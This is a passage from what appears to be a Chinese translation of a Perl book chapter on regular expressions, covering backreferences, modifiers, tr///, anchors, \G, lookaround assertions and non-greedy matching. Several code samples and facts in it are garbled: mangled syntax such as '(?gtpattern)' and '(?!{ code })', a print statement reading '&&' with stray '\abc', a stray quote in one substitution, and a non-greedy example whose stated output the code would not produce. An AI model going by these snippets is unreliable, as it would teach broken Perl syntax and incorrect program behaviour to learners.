$name =~ s/(\w)\w*/$1\./g;
print "The meeting of the $name foundation is now in session.";
```

> The meeting of the A. P. P. foundation is now in session.

这是另一个使用 **$1** 形式反向引用的例子（在这个例子中，我使用 **\d** 匹配一个数字）：

```
$text = "I have 4 apples.";
if ($text =~ /(\d+)/) {print "Here's the number of apples: $1.\n";}
```

> Here's the number of apples: 4.

在Perl中，使用 **$1**、**$2** 等非常流行，我们将经常使用该技术。让我向你展示另一个例子，我使用 **s///** 反转文本字符串中三个单词的顺序：

```
$text = "I see you";
$text =~ s/(\w+) *(\w+) *(\w+)/$3 $2 $1/;
print $text;
```

*you see I*

除了反向引用，你还可以使用Perl特殊变量 **$&**（指代前一次匹配）、**$'**（指代前一次匹配之后的字符串）和 **$\`**（指代前一次匹配之前的字符串）。详见第10章。

> **提示：** *如果速度在你的应用中很重要，那么使用变量 **$&**、**$'** 和 **$\`** 并不是一个好主意。如果你使用了这些变量中的任何一个，Perl会开始为整个程序中你使用的每个模式匹配跟踪所有这些变量。*

了解 **$+** 预定义变量也是值得的，因为它指代最后一个括号中的模式匹配。为什么了解 **$+** 是一个好变量？如果你有一个使用括号并使用了交替的模式匹配，它很有用，如下所示：

```
$text = 'ID: 1234 Moola: $5.99 Destination: Unknown';

$text =~ /Cash: \$(.*) Destination|Moola: \$(.*) Destination/;
```

在这种情况下，**$1** 指代第一个匹配，**$2** 指代第二个。因为只有一个模式会匹配，你应该使用哪个变量——**$1** 还是 **$2**？这个问题可以通过使用 **$+** 指代最后一个括号匹配来解决：

```
$text = 'ID: 1234 Moola: $5.99 Destination: Unknown';
$text =~ /Cash: \$(.*) Destination|Moola: \$(.*) Destination/;
print "Amount = \$$+";
```

*Amount = $5.99*

让我分享另一个反向引用的事实：如果你在列表上下文中使用 **m//** 但没有 **g** 修饰符，**m//** 会返回所有反向引用的列表，如下所示：

```
$_ = "This is a test";
@a = m/(\w*)\W(\w*)\W(\w*)\W(\w*)/;
print "@a";
```

*This is a test*

这段代码类似于在列表上下文中使用 **m//g**（即带 *有* **g** 修饰符的 **m//**）。在这种情况下，**m//** 返回*所有*匹配的列表，如下所示，我在这里搜索四个字母的单词：

```
@a = ("This is a test" =~ m/\w{4}\b/g);
print "@a";
```

*This test*

> **提示：** 有时你在正则表达式中使用括号来存储匹配，有时你只是使用括号来分组正则表达式中的元素。如果你只是分组元素，你的正则表达式可能会变慢，因为Perl会不必要地存储每个匹配。有关解决该问题的方法，请参阅下一个主题“创建正则表达式：正则表达式扩展”。

| 相关解决方案： | 页码： |
|:---|---:|
| $' 后匹配字符串 | 423 |
| $& 最近的模式匹配 | 426 |
| $` 前匹配字符串 | 447 |

## 创建正则表达式：正则表达式扩展

那么Perl正则表达式还有什么等着我们呢？有一整套正则表达式扩展可用，我将在这里介绍它们。

Perl为正则表达式提供了一种使用括号加问号的扩展语法；一些扩展已经定义好了：

- **(?#text)**—表示注释。此表达式中的文本将被忽略。
- **(?:pattern)** 或 **(?imsx-imsx:pattern)**—将子表达式分组，类似于 ( 和 )，但不会像 ( 和 ) 那样创建反向引用。
- **(?=EXPR)**—正向前行断言，如果 **EXPR** 接下来会匹配，则匹配。
- **(?!EXPR)**—负向前行断言，如果 **EXPR** 接下来会匹配，则不匹配。
- **(?<=EXPR)**—正向后行断言，如果 **EXPR** 刚好在前面会匹配，则匹配。
- **(?<!EXPR)**—负向后行断言，如果 **EXPR** 刚好在前面会匹配，则不匹配。
- **(?!{ code })**—执行Perl代码的零宽断言。仅在使用 `use re 'eval'` 编译指示时可用。
- **(?gtpattern)**—匹配独立模式如果在给定位置锚定时会匹配的子字符串。
- **(?(condition)yes-pattern|no-pattern)** 或 **(?(condition)yes-pattern)**—指定条件表达式。
- **(?imsx-imsx)**—指定一个或多个嵌入的模式匹配修饰符。

注意，例如，你可以使用 (?#...) 为正则表达式添加注释，如下所示，我在这里标记表达式中的匹配：

```
$text = "I see you";
$text =~ s/^(?# 1st)(\w+) *(?# 2nd)(\w+) *(?# 3rd)(\w+)/$3 $2 $1/;
print $text;

you see I
```

## 使用前向断言和后向断言

(?=...) 和 (?!...) 断言是 *前向* 断言，而 (?<=EXPR) 和 (?<!EXPR) 是 *后向* 断言。这些断言处理接下来*可能*发生的匹配，尽管实际的匹配并没有发生。也就是说，这些断言的结果不会被添加到任何正在进行的匹配中；它们只是测试条件。

因为这些断言本身不成为匹配的一部分，所以它们有时很有用。例如，假设你正在寻找Paris、London和Vienna，但你不知道它们的顺序；像这样的模式会失败，因为城市的顺序不对：

```
$_ = "I'm going to Paris, London, and Vienna.";
print "Found all three." if /.*Vienna.*Paris.*London/;
```

另一方面，前向断言不会成为匹配的一部分，所以即使城市顺序不对，这个匹配也会成功：

```
$_ = "I'm going to Paris, London, and Vienna.";
print "Found all three." if /(?=.*Vienna)(?=.*Paris)(?=.*London)/;

Found all three.
```

请参阅本章末尾的“使用断言进行前向和后向匹配”主题，了解如何使用前向断言和后向断言。

## 使用无记忆括号

使用正则表达式扩展最强大的方法之一是使用无记忆括号。以 `\1` 或 `$1` 形式存储匹配需要额外的工作，并且可能使你的正则表达式变慢。有时，你使用括号是为了让正则表达式更清晰，就像本例一样，我使用了三个交替匹配——**exit**、**quit** 和 **stop**：

```
while(<>) {
    if(/^(exit|quit|stop)$/) {
        if($1) {
            print "You typed: $1\n";
        } else {
            print "Nothing stored.\n";
        }
    }
}
```

*exit*
*You typed: exit*

正如你所看到的，围绕交替匹配的括号存储了一个匹配，即使我们不需要它们。要解决这个问题，你可以使用无记忆括号（`?:...`），如下所示（注意代码现在表明没有存储任何内容）：

```
while(<>) {
    if(/^(?:exit|quit|stop)$/) {
        if($1) {
            print "You typed: $1\n";
        } else {
            print "Nothing stored.\n";
        }
    }
}
```

*exit*
*Nothing stored.*

## 使用 `m//` 和 `s///` 的修饰符

新手程序员又来上课了。"我知道我可以在 **m//** 中使用 **g** 修饰符来进行全局搜索，但还有哪些其他修饰符可用？" "问得好，"你说。

Perl 支持大量可用于 **m//** 和 **s///** 的修饰符：

- **e**—表示 **s///** 右侧是要执行的代码
- **ee**—表示 **s///** 右侧是一个字符串，会作为代码执行，然后再次对其返回值进行求值
- **g**—全局工作，执行所有可能的操作
- **gc**—匹配失败后不重置搜索位置
- **i**—忽略字母大小写
- **m**—使 **^** 和 **$** 匹配嵌入的 \n 字符
- **o**—仅编译一次模式
- **s**—使 **.** 字符匹配换行符
- **x**—忽略模式中的空白并允许注释

在此示例中，我使用 **g** 修饰符配合 **m//** 来搜索字符串中字母 *x* 的所有出现位置：

```
$text = "Here is the texxxxxt.";
while ($text =~ m/x/g) {print "Found another x.\n";}
```

*Found another x.*
*Found another x.*
*Found another x.*
*Found another x.*
*Found another x.*

每次在标量上下文中使用 **m//g** 时，它会记住上次搜索结束的位置，并从那里继续。

> *提示：* 在标量上下文中，**m//g** 不会一次搜索所有匹配项——每次只匹配一个，但会记住下次匹配的起始位置——这就是为什么在前面的示例中我必须使用 **while** 循环来找到所有匹配项。

如果在列表上下文中使用 **m//g**，它会返回所有匹配项的列表，如下例所示，我在此搜索四个字母的单词：

```
@a = ("This is a test" =~ m/\w{4}\b/g);
print "@a";
```

*This test*

**s///** 运算符使用 **g** 修饰符来执行全局替换。这里不存在标量或列表上下文的问题；使用 **g** 修饰符时，字符串中的所有匹配项都会被替换：

```
$text = "Now is the time.";
$text =~ s/./*/g";
print $text;
```

**************

此示例允许用户通过输入 **Stop**、**stop**、**STOP**、**StOp** 等以不区分大小写的方式结束程序：

```
while(<>) {
    if(m/^stop$/i) {exit;}
}
```

## 使用 **tr///** 翻译字符串

除了 **m//** 和 **s///** 运算符外，你还可以使用 **tr///** 运算符来操作字符串，它与 **y///** 运算符相同：

```
tr/LIST/LIST/
y/LIST/LIST/
```

你使用此运算符进行文本翻译，将第一个列表中找到的所有字符替换为第二个列表中对应的字符，例如下面这个示例，我将字符串中字母 *i* 的所有出现替换为字母 *o*：

```
$text = "My name's Tim.";
$text =~ tr/i/o/;
print $text;
```

> My name's Tom.

与 **m//** 和 **s///** 一样，**tr///** 默认作用于 **$_**：

```
while (<>) {
    tr/i/o/;
    print;
}
```

你也可以指定要操作的字符范围，例如下面这个示例将字符串转换为大写：

```
$text = "Here is the text.";
$text =~ tr/a-z/A-Z/;
print $text;
```

*HERE IS THE TEXT.*

**tr///** 运算符返回翻译的次数，这意味着你有时会看到类似这样的代码，它在不影响字符串的情况下计算字母 *x* 在 **$_** 中出现的次数：

```
$text = "Here is the text.";
$xcount = ($text =~ tr/x/x/);
print $xcount;
```

1

## 在 tr/// 中使用修饰符

初学程序员问道："我知道可以在 **m//** 和 **s///** 中使用修饰符，但我也可以在 **tr///** 中使用吗？" "当然可以，"你说，"但不是相同的修饰符。"

Perl 支持多个可用于 **tr///** 的修饰符：

- **c**—对搜索列表取补集
- **d**—删除未被替换的字符
- **s**—删除重复的已替换字符

我们在本章开头见过以下示例，其中我使用 **tr///** 配合 **d** 修饰符来删除字符。在此示例中，我从 **$text** 中删除字符 **\r**，将 DOS 字符串（使用 **\r\n** 作为行尾序列）转换为 Unix 字符串（仅使用 **\n**）：

```
$text =~ tr/\r//d;
```

## 匹配单词

初学程序员又来了。"似乎有多种使用正则表达式匹配单词的方法，"初学程序员说，"哪一种最好？" "那取决于，"你说，"你想做什么。"

你可以使用 \S 匹配单词，它匹配非空白字符：

```
$text = "Now is the time.";
$text =~ /(\S+)/;
print $1;
```

*Now*

但是请注意，\S 可以匹配各种非字母数字字符，如果你选择 \w 则可以避免这个问题，\w 匹配字母数字字符和 "_"：

```
$text = "Now is the time.";
$text =~ /(\w+)/;
print $1;
```

*Now*

如果你想只匹配包含字母的单词，可以使用字符类：

```
$text = "Now is the time.";
$text =~ /([A-Za-z]+)/;
print $1;
```

*Now*

更安全的技术是同时使用 \b 匹配单词边界：

```
$text = "Now is the time.";
$text =~ /(\b[A-Za-z]+\b)/;
print $1;
```

*Now*

\b 断言匹配单词字符（\w——即字母数字和 "_"）与非单词字符（\W）之间的过渡；它*不*匹配特定字符如空白。\B 断言匹配非单词边界。

请注意，如果你的单词包含既不是字母数字也不是 "_" 的字符，使用 \w 可能会遇到问题，例如下面这个含有 *isn't* 的例子：

```
$_ = "This isn't right.";
@a = m/(\w+)[\W|.]/g;
print "@a";
```

> This isn t right

在这种情况下，最好使用 \s（空白）和 \S（非空白）测试，实际上这是一种流行的匹配单词的方式，将单词视为由空白分隔的任何内容：

```
$_ = "This isn't right.";
@a = m/(\S+)[\s|.]/g;
print "@a";
```

> This isn't right

结论是，由你决定如何匹配单词；你可以使用 \s、\S、\w、\W、\b 和 \B 进行自己的组合。

## 匹配行首

初学程序员说："我的代码读入很多单独的行并逐行扫描匹配。我想找到 **exit**，但它只出现在行的最开头时才匹配。有没有办法匹配行首？" "当然有，"你说。

你可以通过在正则表达式开头使用 ^ 字符来匹配行首。例如，我这样搜索句子开头的句号"."。（注意我将 **.** 转义为 \.——否则它会匹配任何字符。）

```
$line = ".Hello!";

if ($line =~ m/^\./) {
    print "Shouldn't start a sentence with a period!";
}
```

> Shouldn't start a sentence with a period!

你会在正则表达式中经常看到 ^ 的使用。（请记住，当它在字符类中使用时，是取反逻辑操作，用于排除其后的字符。）

你也可以使用 \A 断言来匹配字符串的开头：

```
$line = ".Hello!";

if ($line =~ m/\A\./) {
    print "Shouldn't start a sentence with a period!";
}
```

*Shouldn't start a sentence with a period!*

从编程术语来说，^ 和 \A 的主要区别在于，当你使用 **m**——多行——修饰符时，^ 匹配每行的开头，但 \A 保持其原始含义，只在整个字符串的最开头匹配。

*注意：另请参阅本章后面的"匹配多行文本"主题。*

## 匹配行尾

要匹配行尾：

```
while(<>) {
    if(m/^exit$/) {exit;}
}
```

当你使用 $ 时，它实际上匹配的是行尾*之前*的位置，你可以在下面这个示例中看到。这里，匹配的字符串不包含换行符（也就是说，当我显示时，我添加到匹配字符串末尾的句号与匹配字符串在同一行上）：

```
$text = "Here is some text\n";
$text =~ m/(.*$)/;
print "${1}.";
```

*Here is some text.*

如果你想实际操作换行符，可以使用 **s** 修饰符，这样点号（.）将匹配任何字符，包括换行符（通常它匹配除换行符*以外*的任何字符），如下所示：

```
$text = "Here is some text\n";
$text =~ m/(.*)/s;
print "${1}.";
```

*Here is some text.*

你也可以显式搜索换行符，如下所示，我在此删除文本末尾的换行符：

```
$text = "Here is some text\n";
$text =~ s/\n//;
print "${text}.";
```

*Here is some text.*

你还可以使用另外两个断言来匹配字符串末尾：**\Z** 只匹配字符串末尾或字符串末尾换行符之前的位置，而 **\z** 只匹配字符串末尾。我使用 **\Z** 断言匹配行尾——一直到但不包括换行符——如下所示：

```
$text = "Here is some text\n";
$text =~ m/(.*\Z)/;
print "${1}.";
```

*Here is some text.*

从编程术语来说，**$** 和 **\Z** 的主要区别在于，当你使用 **m**——多行——修饰符时，**$** 匹配每行的末尾（换行符之前），但 **\Z** 保持其原始含义，只在整个字符串的最末尾匹配。

*注意：另请参阅本章后面的"匹配多行文本"主题。*


## 数字检查

"我正在编写一个电话簿应用程序，"新手程序员说，"我能以某种方式区分姓名和数字吗？""当然，"你说，"完全没问题。"

你可以使用 **\d** 和 **\D** 断言来检查数字，例如，检查用户输入以确保输入的是数字。**\D** 特殊字符匹配任何*非*数字字符，因此你可以通过这种方式检查字符串是否不代表有效数字：

```
$text = "Hello!";
if ($text =~ /\D/) {print "It's not a number.";}
```

*It's not a number.*

要检查有效数字，你可以这样使用 **\d**：

```
$text = "345";
if ($text =~ /^\d+$/) {print "It's a number.";}
```

*It's a number.*

你可以坚持自定义格式，例如，至少有一位数字，后跟一个十进制点，十进制点后可能还有一些数字，如下所示（请务必使用反斜杠转义 **.** 以避免匹配任何字符）：

```
$text = "3.1415";
if ($text =~ /^\d+\.\d*$/) {print "It's a number.";}
```

*It's a number.*

你可以允许数字前有符号，如下所示：

```
$text = "-3.1415";
if ($text =~ /^[+-]\d+\.\d*$/) {print "It's a number.";}
```

*It's a number.*

你可以这样检查十六进制数字：

```
$text = "1A0";
unless ($text =~ /^[+-]*[\da-f]+$/i) {print "It's not a hex number. ";}
```

在下一个示例中，我从字符串中提取所有数字：

```
$_ = "1.0 and 2.4 and 310 and 4.7 and so on.";
@a = m/([\d|\.]+)\D+/g;
print "@a";
```

1.0 2.4 310 4.7

## 字母检查

"好的，"新手程序员说，"使用 \d 和 \D，我可以在电话簿应用程序中检查数字。但是，如何检查字母呢？""也没问题，"你说。

你可以使用 \w 检查字母：

```
$text = "aBc";
if ($text =~ /^\w+$/) {print "Only word characters found.";}
```

Only word characters found.

但是请注意，\w 不仅匹配字母，还匹配数字和"_"。如果你想确保只匹配字母，可以使用像这样的字符类：

```
$text = "aBc";
if ($text =~ /^[A-Za-z]+$/) {print "Only letters found.";}
```

Only letters found.

如果你想匹配除空格以外的任何内容，请使用 \S：

```
$_ = "1.0 and 2.4 and retval-5";
@a = m/(\S+)/g;
print join(", ", @a);
```

1.0, and, 2.4, and, retval-5

## 查找多个匹配

"我必须在这个文本中匹配十几个东西，"新手程序员说，"但 **m/** 只是不断匹配第一个！我如何才能全部匹配？大老板在催我！这快让我发疯了！""别慌，"你说，"使用 **g** 修饰符。""哦，"新手程序员说，"好的。"

你可以使用 **g** 修饰符使你的模式匹配全局化，这是处理多个匹配的方式。我们之前看到了下一个例子；在其中，我们在标量上下文中使用 **m/** 的 **g** 修饰符来搜索字符串中字母 *x* 的所有出现：

```
$text = "Here is the texxxxxt.";
while ($text =~ m/x/g) {print "Found another x.\n";}
```

*Found another x.*
*Found another x.*
*Found another x.*
*Found another x.*
*Found another x.*

在这种情况下，**g** 修饰符使搜索全局化，这意味着 Perl 会记住在搜索之间在字符串中的位置，并在下一次迭代中从该点之后开始。如果我没有使用 **g** 修饰符，**m/** 将总是匹配第一个 *x*，因此循环将永远继续。

> **提示：** 匹配失败通常会将搜索位置重置到字符串的开头，但你可以通过添加 **/c** 修饰符（例如 **m//gc**）来避免这种情况。

在列表上下文中，**m//g** 返回它找到的所有匹配项，如下所示，我在这里搜索四个字母的单词：

```
$_ = "This is a test";
@a = m/\w{4}/g;
print "@a";
```

*This test*

在下一个示例中，我使用全局搜索创建一个数组 **@a**，该数组将包含 **$_** 中所有小写的单词：

```
$_ = "Here is the text";
@a = m/\b[^A-Z]+\b/g;
print "@a";
```

is the text

如果你在列表上下文中使用 **m//** 而*不*使用 **g** 修饰符，**m//** 将返回所有反向引用（即括号中的匹配项）的列表，如下所示：

```
$_ = "This is a test";
@a = m/(\w*)\W(\w*)\W(\w*)\W(\w*)/;
print "@a";
```

This is a test

另一方面，**s///** 在添加 **g** 修饰符时表现得好像它内部已经有一个循环，如下所示，我将 **$text** 中所有出现的字母 *x* 替换为字母 *z*：

```
$text = "Here is the texxxxxt.";
$text =~ s/x/z/g;
print $text;
```

Here is the tezzzzzt.

如果没有 **g** 修饰符，**s///** 将只替换第一个 *x*。

**s///** 操作符还返回进行的替换次数，这可能非常方便：

```
$text = "Here is the texxxxxt.";
print ($text =~ s/x/z/g);
```

5

你也可以使用 **map**，如本例所示，我使用它来获取长度为四个字符的子字符串（模式中的括号对于使此表达式返回匹配的字符串至关重要）：

```
@a = qw(This is a test);
@b = map/^(\w{4})/, @a;
print "@b";
```

This test

# 第 6 章 正则表达式

除了 **map**，不要忘记你还可以使用 **grep**，如本例所示（这里模式中不需要括号，因为 **grep** 只是测试表达式是真还是假）：

```
@a = qw(This is a test);
@b = grep/^\w{4}/, @a;
print "@b";
```

*This test*

| 相关解决方案： | 所在页码： |
| --- | --- |
| 使用 **map** 处理列表中的每一项 | 84 |
| 使用 **grep** 查找符合你标准的列表项 | 85 |

## 查找第 *n* 次匹配

如果你想找到一个特定的匹配项，比如第二次或第三次呢？一种方法是像这样在 **while** 循环中使用分组运算符 ( 和 ) 处理每个单独的匹配：

```
$text = "Name: Anne Name: Burkart Name: Claire Name: Dan";
$match = 0;

while ($text =~ /Name: *(\w+)/g) {
    ++$match;
    print "Match number $match is $1.\n";
}
```

```
Match number 1 is Anne.
Match number 2 is Burkart.
Match number 3 is Claire.
Match number 4 is Dan.
```

你也可以用 **for** 语句编写这个例子：

```
$text = "Name: Anne Name: Burkart Name: Claire Name: Dan";

for ($match = 0; $text =~ /Name: *(\w+)/g; print
    "Match number ${\++$match} is $1.\n") {}
```

```
Match number 1 is Anne.
Match number 2 is Burkart.
Match number 3 is Claire.
Match number 4 is Dan.
```

## 使用 **pos** 函数

当你像这样处理单个匹配时，**pos** 函数非常有用，因为它返回最后一次 **m//g** 匹配的位置。如果你没有向 **pos** 传递字符串的名称，它会使用 **$_**，因此我可以这样使用 **pos** 报告字符串中字母 *o* 的位置：

```
$_ = "There's Thomas on the bus!";
while(/o/g) {
    print "There's an \"o\" at position ". pos() . "\n";
}
```

> *There's an "o" at position 11*
*There's an "o" at position 16*

你可以更花哨地使用全局匹配；你也可以使用 **\G** 锚点。要做到这一点，请参阅下一个主题。

# 从上次模式完成的位置开始搜索：**\G**

新手程序员出现了。"我正在整理那个电话簿应用程序，"新手程序员说，"但我遇到了一个问题。""什么问题？"你问。"嗯，"新手程序员说，"我可以通过按姓名搜索来提取一个人的电话号码，但我在这个镇上发现了两个 J. P. Thomas Plunksworths，我所能得到的总是第一个 J. P. Thomas Plunksworth 的电话号码。""啊，"你说，"问题就在这里；你可以使用 **\G**。"

**\G** 断言是一个锚点（就像任何其他锚点，如 **^**、**$** 或 **\A**），它锚定在使用全局 **g** 修饰符的最后一次模式搜索完成的位置。当你使用 **\G** 时，就像使用任何其他断言（如 **^** 或 **$**）一样，只是你指定了你想从上次全局模式匹配停止的位置开始模式匹配。

考虑这个例子。在这个例子中，我使用全局搜索来搜索字母 *o*（注意我使用了 **g** 修饰符，如果你想使用 **\G**，就必须这样做）：

```
$_ = "There's Thomas on the bus!";
m/o/g;
```

因为我在标量上下文中使用 **m//g**，所以这个匹配匹配第一个 **o**（在 **Thomas** 中）。如果你想开始处理此点之后的文本，你可以使用 **\G** 来锚定匹配。我这样做，然后像这样用 **.* ** 匹配剩余的文本：

第6章 正则表达式

```
$_ = "There's Thomas on the bus!";
m/o/g;
m/\G(.*)/g;
print $1;
```

*mas on the bus!*

你甚至可以为 **pos** 函数（参见前面的主题）赋一个值，以更改 **\G** 锚点将返回的位置。

## 在多行文本中进行匹配

初级程序员正在打电话。“我想在多行文本中查找匹配项，但现在 **^** 和 **$** 对我不管用了，而 **.** 也不匹配换行符。” “你最好过来一下，” 你说，“你这里有些技巧需要学习。”

## 使用 s 修饰符

通常，点号（.）匹配除换行符 **\n** 之外的任何字符，但你可以通过使用 **s** 修饰符来改变这一点。例如，这里我使用 **s** 修饰符，用 **.\*** 匹配整个字符串，包括末尾的换行符：

```
$text = "Here is some text\n";
$text =~ m/(.*)/s;
print "${1}.";
```

*Here is some text
.*

这是一种处理换行符的方法。但是，如果你想在多行上执行匹配和替换，你应该使用 **m** 修饰符。

## 使用 m 修饰符

让我们看看 **m** 修饰符是如何工作的。这里，我将使用一个包含两行文本的字符串，并进行全局替换，用术语 **BOL** 替换行的开头（由 **^** 匹配），用术语 **EOL** 替换行的结尾（由 **$** 匹配）：

```
$_ = "This text\nhas multiple lines.";
s/^/BOL/g;
s/$/EOL/g;
print;
```

BOLThis text
has multiple lines.EOL

注意这里发生了什么——这些全局替换仅匹配字符串最开头的行首和最末尾的行尾；字符串中间的 \n 字符被忽略了。

你可以通过使用 **m** 修饰符来改变这个结果。看看当我在 *s///* 中添加 **m** 修饰符时会发生什么：

$_ = "This text\\nhas multiple lines.";
s/^/BOL/mg;
s/$/EOL/mg;
print;

BOLThis textEOL
BOLhas multiple lines.EOL

在这种情况下，Perl 会识别字符串中间的 **\n** 字符，并且 **^** 和 **$** 都会匹配它，否则它们不会匹配。通过这种方式，你可以处理多行文本，并对每一行使用 **^** 和 **$**。

> **提示：** 你过去常常将 Perl 特殊变量 **$*** 设置为 1 来在字符串内进行多行匹配，否则设置为 0。但是，**$*** 现在已弃用，已被 **s** 和 **m** 修饰符取代。

如果你想使用 **m** 修饰符但仍然想找到整个字符串的开头和结尾（即 **^** 和 **$** 不再用于此目的）？在这种情况下，你可以使用 **\A** 和 **\Z** 断言（参见本章前面“匹配行首”主题），如下例所示，其中 **BOS** 是字符串的开头，**EOS** 是字符串的结尾：

$_ = "This text\\nhas multiple lines.";

s/\\A/BOS/mg;
s/\\Z/EOS/mg;
print;

BOSThis text
has multiple lines.EOS

> **提示：** 你可以使用向前断言（如 **(?!.*\n)**）来确定字符串中是否不再出现换行符。参见本章后面的“使用向前和向后断言”主题。

## 使用不区分大小写的匹配

“该死，”初级程序员说，“用户不配合。他们应该输入 Y 表示是，N 表示否，但大多数人输入的是小写的 y 和 n。我不得不开始为这些情况添加替代匹配项。” “还有另一种方法，” 说，“你可以使用 **i** 修饰符。”

你可以使用 **i** 修饰符使模式匹配不区分大小写，如本例所示，除了用户在行首输入“q”或“Q”（如“quit”或“QUIT”）的情况外，我都会回显用户输入的内容，否则我将 **退出** 程序：

```
while (<>) {
    chomp;
    unless (/^q/i) {
        print;
    } else {
        exit;
    }
}
```

你当然仍然可以使用替代匹配：

```
while (<>) {
    chomp;
    unless (/^(q|Q)/i) {
        print;
    } else {
        exit;
    }
}
```

然而，当大小写可以混合时，替代匹配就不那么容易了。这里是一个使用 **i** 修饰符的例子，它允许用户通过不区分大小写的方式输入 **Stop, stop, STOP, StOp** 等来结束程序：

```
while(<>) {
    if(m/^stop$/i) {exit;}
}
```

## 提取子字符串

正则表达式的常见用途之一是从其他字符串中提取子字符串。我们已经在本章中介绍了这个过程是如何工作的，但由于它非常常用，我将为这个过程单独设一个主题。

你可以使用分组操作符 ( 和 ) 从字符串中提取子字符串（或者，当然，你可以使用内置的 Perl 函数 **substr**）。在这个例子中，我从基于文本的记录中提取产品类型：

```
$record = "Product number: 12345 Product type: printer
    Product price: $325";
if ($record =~ /Product type: *([a-z]+)/i) {print
    "The product's type is $1\n";}
```

> *产品的类型是 printer*

## 在正则表达式中使用函数调用和 Perl 表达式

“嗯，”初级程序员说，“模式匹配确实很有用，但它不是有点被动吗？” 你问这是什么意思。“嗯，”NP 说，“如果我想处理我匹配到的字符并更改它们呢？” “使用替换，” 你说。“是的，”NP 说，“但如果我想在替换中实际使用我自己的自定义函数呢？” “很简单，” 说，“使用 **e** 修饰符。”

你可以使用 **e** 修饰符来指示 **s///** 操作符的右操作数是需要求值的 Perl 表达式。例如，这里我使用内置的 Perl 函数 **uc**（大写）将字符串中的每个单词更改为大写：

```
$text = "Now is the time.";
$text =~ s/(\w+)/uc($1)/ge;
print $text;
```

> *NOW IS THE TIME.*

你可以用你的 Perl 代码替换这里的 **uc($1)** 表达式，包括调用你自己的函数。在这个例子中，我使用一个名为 **negatory** 的函数将 **is** 更改为 **is not**，将 **can** 更改为 **can not**，等等（有关在 Perl 中创建此类子程序的更多详细信息，请参见第 7 章）：

```
sub negatory
{
    $hash{is} = 'is not';
    $hash{may} = 'may not';
    $hash{can} = 'can not';
    $hash{was} = 'was not';
    $hash{will} = 'will not';

    $value = shift;

    if (exists $hash{$value}) {
        return $hash{$value};
    } else {
        return $value;
    }
}
```

```
$text = "Now is the time.";
$text =~ s/(\w+)/negatory($1)/ge;

print $text;
```

现在不是时候。

## 查找重复的单词

模式匹配的一个常见用途是在输入的文本中搜索因输入错误而重复的单词。（大多数拼写检查器也会检查此错误。）你可以使用模式匹配轻松地搜索重复的单词。尽管你想匹配的单词类型可能不同（因此你可能必须修改此示例），但一般技巧是使用反向引用。你可以使用以下代码来查找重复的单词；此代码假设你文本中的单词之间使用空格：

```
$_ = "Now is the the time time.";

@duplicates = m/(\S+)\s\1/g;

print "Duplicated words: @duplicates";
```

重复的单词：the time

## 使量词不那么贪婪：最小匹配

“糟糕，”初级程序员说。“怎么了？” 你问。“嗯，”NP 说，“Perl 有一个 bug。我试图将字符串 **No, these are the documents, over there.** 中的 **these** 更改为 **those**，但整个字符串最终变成了 **No, those.** 这一定是个 bug。” “糟糕，” 说，“听起来像是一个贪婪量词的问题。”

Perl 量词默认是*贪婪的*，这意味着它们会匹配尽可能多的字符，与字符串中的当前搜索位置以及它们要匹配的正则表达式一致。例如，这里我试图将 **That is** 替换为 **That's**，但表达式 **.\*is** 从字符串的开头一直匹配到第二个 **is** 的末尾，而不是第一个：

```
$text = "That is some text, isn't it?";
$text =~ s/.*is/That's/;
print $text;
```

> That'sn't it?

要使量词不那么贪婪——即匹配*最少*可能的次数——你在量词后跟一个 ?：

- **\*?**—匹配零次或多次
- **+?**—匹配一次或多次
- **??**—匹配零次或一次
- **{n}?**—匹配 **n** 次
- **{n,}?**—匹配至少 **n** 次
- **{n,m}?**—匹配至少 **n** 次但不超过 **m** 次

以下是新的结果：

```
$text = "That is some text, isn't it?";
$text =~ s/.*?is/That's/;
print $text;
```

> That's some text, isn't it?

看看初级程序员卡住的情况。NP 想将这个字符串中的 **these** 更改为 **those**，但 * 量词是贪婪的：

```
$_ = "No, these are the documents, over there.";
s/the(.*)e/those/;
print;
```

> No, those.


这个问题可以通过让 `*` 量词不贪婪来解决，使其只使用第一个匹配项：

```
$_ = "No, these are the documents, over there.";
s/the(.*?)/those/;
print;
```

No, those are the documents, over there.

## 移除前导和尾部空白

替换操作的一个常见用途是移除前导和尾部空白，这很容易实现。要去除前导空白，你可以使用类似下面的表达式：

```
$text = "     Now is the time.";
$text =~ s/^\s+//;
print $text;
```

Now is the time.

要去除尾部空白，你可以使用类似下面的表达式：

```
$text = "Now is the time.     ";
$text =~ s/\s+$//;
print $text;
```

Now is the time.

就这么简单。如果你想在同一个字符串的多行中使用此技巧，请参阅本章前面的"多行匹配"主题。

## 使用断言进行前瞻和后顾

除了标准断言之外，你还可以使用前瞻断言和后顾断言，它们_会_在当前匹配项的下一个位置或前一个位置满足特定条件时匹配成功。Perl 定义了这些前瞻断言和后顾断言（在正则表达式中都具有零宽度）：

- **(?=EXPR)**—正向前瞻断言，当 **EXPR** 在下一个位置匹配成功时匹配
- **(?!EXPR)**—负向前瞻断言，当 **EXPR** 在下一个位置不匹配时匹配
- (?<=EXPR)—正向后顾断言，当 **EXPR** 在前一个位置匹配成功时匹配
- (?<!EXPR)—负向后顾断言，当 **EXPR** 在前一个位置不匹配时匹配

这些断言在你需要确保某个字符串出现在匹配项的前面或后面，但又不想将该字符串包含在匹配结果中时非常有价值。如果你使用特殊变量 `$&`（保存上一次匹配结果）、`$'`（保存上一次匹配结果之后的字符串）和 `` $` ``（保存上一次匹配结果之前的字符串），而不是更灵活的 `$1`、`$2`、`$n` 语法——后者可以通过括号显式选择要匹配的字符串部分并排除其他部分，同时通过将其他匹配项放在括号外来检查主匹配项前面或后面的其他匹配——那么这个功能会很有用。

在这个例子中，我查找后面跟着空格的单词，但不想将空格包含在匹配结果中：

```
$text = "Mary Tom Frank ";
while ($text =~ /\w+(?=\s)/g) {
    print "&&\n";\abc
}
```

Mary
Tom
Frank

注意，你可以通过将要保留的匹配部分放在括号中并引用 `$1` 来实现同样的效果：

```
$text = "Mary Tom Frank ";
while ($text =~ /(\w+)\s/g) {
    print "$1\n";
}
```

Mary
Tom
Frank

然而，由于这些断言是零宽度的，它们本身不会成为匹配结果的一部分，这在某些情况下很有用。假设你要查找 Tom、Dick 和 Harry，但不知道它们的顺序是什么。像这样的模式会失败，因为名字的顺序不对：

```
$_ = "Not just any Tom, Dick, or Harry.";
print "Found Dick, Tom, and Harry." if /.*Dick.*Tom.*Harry/;
```

另一方面，前瞻断言不会成为匹配结果的一部分，所以即使名字的顺序不对，这个匹配也能成功：

```
$_ = "Not just any Tom, Dick, or Harry.";
print "Found Dick, Tom, and Harry." if /(?=.*Dick)(?=.*Tom)(?=.*Harry)/;
```

